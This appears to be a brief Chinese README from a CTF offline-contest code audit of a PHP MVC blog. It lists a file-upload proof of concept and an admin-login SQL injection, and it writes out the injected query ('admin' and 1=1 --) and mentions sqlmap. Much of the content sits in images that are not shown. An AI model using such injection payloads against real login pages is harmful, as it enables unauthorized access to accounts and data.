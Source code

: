# php MVC环境



## 0x01 Poc1
._Upload_index.php

![](README/E1824D20-553E-48E1-A2BD-9DE3EE778560.png)

http://127.0.0.1/Upload/index.php abcde10db05bd4f6a24c94d7edde441d18545

![](README/E742BF5A-8219-4E81-8421-9F1532B8419F.png)

0x02 Poc2

后台sql注入漏洞
http://127.0.0.1//?p=admin&a=login
拼接后的语句是
SELECT email, password FROM Admins WHERE email = 'admin' and 1=1 -- @qq.com' LIMIT 0,1

也可以直接用sqlmap注入
![](README/90374552-4DDE-46A8-B6FE-60A5E5D0A7AA.png)


![](README/7C7D1344-6039-4324-824D-981C92FA71E6.png)





[CTF线下赛writeup&tinyblog代码审计](https://zhuanlan.zhihu.com/p/34552875)
